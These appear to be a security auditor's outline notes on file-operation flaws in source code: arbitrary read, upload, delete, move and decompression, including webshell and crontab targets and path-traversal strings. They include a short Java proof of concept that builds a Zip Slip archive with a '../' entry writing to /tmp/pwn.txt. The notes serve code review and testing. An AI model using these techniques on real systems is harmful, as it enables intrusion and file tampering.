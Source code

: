 ## Read
- Arbitrary file read
  - physical path
  - configure files
    - server
    - application
  - source codes
    - war/jar
    - zip/rar
  - other
    - db
    - key

## Upload
- Arbitrary file write/upload
  - webshell
  - System file: related to [ATT&CK]()
    - crontab
    - .profile
  - key configure file
    - indirect control file content
- Cross directory: path splice user controlled file-name without checking or filter
  - contains(. / .. / %00 / ../ / ..\ /)
- Race Condition
  - file delete and can be access temporarily
- several processes
  - step1 upload and step2 modify
- DoS
  - path init: should be path but replace with a file
  - big size

## Delete
- Arbitrary
  - DoS
- 

## Move
  Guess the meaning of parameter in the request body, maybe a path name or other:
- overwrite important file to DoS
- move sensitive file and read
- upload file and move to web directory: jar/jsp


## Decompress
```
input = RequestPram(file);    # file = ../../../../tmp/poc.txt
File file = path + input; 
new ZipEntry(file);
```
Exploit
```
import java.io.File;
 import java.io.FileOutputStream;
 import java.util.zip.ZipEntry;
 import java.util.zip.ZipOutputStream;
 public class ZipExp { public static void main(String[] args) throws Exception { StringBuilder sb = new StringBuilder();
 sb.append("just a test");
 File f = new File("D:\\exp.zip");
 ZipOutputStream out = new ZipOutputStream(new FileOutputStream(f));
 ZipEntry e = new ZipEntry("../../../../../../../../../../../../../../../../../../../../tmp/pwn.txt");
 out.putNextEntry(e);
 byte[] data = sb.toString().getBytes();
 out.write(data, 0, data.length);
 out.closeEntry();
 out.close();
 } }
```


## Combine
- business logic
- sensitive function
  - execute script
  - 

## Function
### Archive
- ZipEntry.getName()


### xlsx
- XMLReader.setFeture
- 
